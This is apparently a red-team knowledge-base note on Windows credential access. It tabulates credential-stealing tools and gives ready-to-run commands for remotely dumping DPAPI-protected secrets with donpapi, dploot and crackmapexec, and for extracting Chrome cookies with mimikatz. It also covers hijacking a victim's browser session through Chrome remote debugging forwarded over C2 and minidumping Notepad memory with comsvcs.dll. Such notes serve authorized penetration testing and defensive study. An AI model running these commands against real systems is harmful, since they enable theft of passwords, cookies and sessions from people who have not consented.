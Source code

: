 ```yaml
---
title: Application Credential Access
---
```


The following tools can be used to [[notes/mitre-attack/credential-access|access credentials]] from various [[notes/windows/index]] desktop applications.
Many of them are protected by [[notes/windows/dpapi-dump|DPAPI]].

Tool | Language | Access | Supported Applications
-----|----------|--------|-----------------------
[[notes/tools/donpapi]] | Python | Remote | Credential Manager, Vault, Certificates, Internet Explorer, Chrome, Edge, Firefox, WiFi, VNC, mRemoteNG
[[notes/tools/dploot]] | Python | Remote | Credential Manager, Vault, Certificates, Remote Desktop Connection Manager, Chrome, Edge, Firefox, WiFi
[[notes/tools/crackmapexec]] | Python | Remote | Uses dploot
[[notes/tools/lazagne]] | Python | Local | Chrome, Edge, Firefox, Outlook, Thunderbird, FileZilla, KeePass, WinSCP and many more
[SharpChromium](https://github.com/djhohnstein/SharpChromium) | C# | Local | Chome, Edge
[ThunderFox](https://github.com/V1V1/SharpScribbles/) | C# | Local | Firefox, Thunderbird
[offline_address_book_extractor.py](https://github.com/api0cradle/RedTeamScripts/blob/main/offline_address_book_extractor.py) | Pyhton | Offline | Outlook address book parser
[OutlookSpy](https://github.com/acole76/OutlookSpy) | C# | Local | Outlook
[SessionGopher](https://github.com/Arvanaghi/SessionGopher) | PowerShell | Local | WinSCP, PuTTY, FileZilla, RDP
[strings2](https://github.com/glmcdona/strings2) + [ProcessStringExtractor](https://gist.github.com/LuemmelSec/3f2c4b7642dc7b2ae63601ed02ec3db5) | C + PowerShell | Local | generic, find patterns in process memory
[PMP-Decrypter](https://github.com/LuemmelSec/PMP-Decrypter) | C# | Local | Patch My PC
[dumpscan](https://github.com/daddycocoaman/dumpscan) | Python | Remote | Find certificates in Minidumps

Dump DPAPI-protected secrets remotely and decrypt them with the domain backup key, the users password or NT hash.

=== "[[notes/tools/donpapi]]"
    Worked, but crashed in the end.

    ~~~ bash
    donpapi -o ./ws01/dpapi -pvk ./corp.pvk -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./passwords.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./nthashse.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    Failed during testing.

    ~~~ bash
    dploot triage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    As unprivileged user dump your own secrets, as local admin dump secrets from every user whose password is stored in CMEDB or as domain admin utilizing the domain backup keys.
    Uses [[notes/tools/dploot]] under the hood ([source](https://twitter.com/mpgn_x64/status/1627638010203316227)).

    ~~~ bash
    crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi passwords && crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi cookies
    ~~~

Dump Chrome cookies with [[notes/tools/mimikatz]].
Cookies for Azure are `ESTSAUTH`, `ESTSAUTHPERSISTENT` and `ESTSAUTHLIGHT`.

~~~ bat
mimikatz.exe "dpapi::chrome /in:%localappdata%googlechromeUSERDA~1defaultcookies /unprotect" exit
~~~

Untested tools:

- [hekatomb](https://github.com/processus-thief/hekatomb), dumps domain backup keys, downloads credential files from all domain computers, decrypts the files

References:

- [Extracting Encrypted Credentials from Common Tools](http://web.archive.org/web/20230816141251/https://scribe.rip/@xm-cyber/extracting-encrypted-credentials-from-common-tools-ceb83e7304ce), WinSCP, RoboMongo, MobaXterm
- [Analyzing LastPass, part 1](http://web.archive.org/web/20221012111523/https://www.mdsec.co.uk/2022/10/analysing-lastpass-part-1/)
- [Relaying YubiKeys](http://web.archive.org/web/20220919230832/https://cube0x0.github.io/Relaying-YubiKeys/)

## Chrome Remote Debugging

Start Chrome in headless and remote debugging mode.

~~~ bat
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
~~~

Reverse forward the debug port over your C2.

Open Chrome on your machine and go to `chrome://inspect`.
Now you can browse the web in the name of your victim.

Untested tools:

- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut), dumps cookies from debug port of Chromium-based browsers

References:

- [Sliver and Cursed Chrome for Post Exploitation](http://web.archive.org/web/20231013174228/https://dev.to/living_syn/sliver-and-cursed-chrome-for-post-exploitation-4gnk)
- [Debugging Cookie Dumping Failures with Chromiums Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [twitter.com/an0n_r0/status/1670007830072500225](https://twitter.com/an0n_r0/status/1670007830072500225)
- [Headless Remote Chrome Debugging](https://gist.github.com/NotMedic/b1ab7809eea94cc05513905b26964663)
- [Stalking inside of your Chromium Browser](https://web.archive.org/web/20221202231214/https://scribe.rip/@specterops/stalking-inside-of-your-chromium-browser-757848b67949)

# Unsaved Notepad

Dump the content of an open `notepad.exe` window that is not written to a file ([source](https://twitter.com/NinjaParanoid/status/1695682038593110193)):

~~~ bat
rundll32.exe comsvcs.dll MiniDump %PID% .\notepad.log full
strings.exe --encoding=l .\notepad.log
~~~

# Notepad++ Backups

Inspect files in `%USERPROFILE%\AppData\Roaming\Notepad++\backup`.

# ProtonPass

References:

- [ProtonPass: Auch nach Sperrung des Passwortspeichers verbleiben Nutzername/Passwort im Hauptspeicher](https://www.kuketz-blog.de/protonpass-auch-nach-sperrung-des-passwortspeichers-verbleiben-nutzername-passwort-im-hauptspeicher/), MiniDump contains plain passwords even if password manager is locked
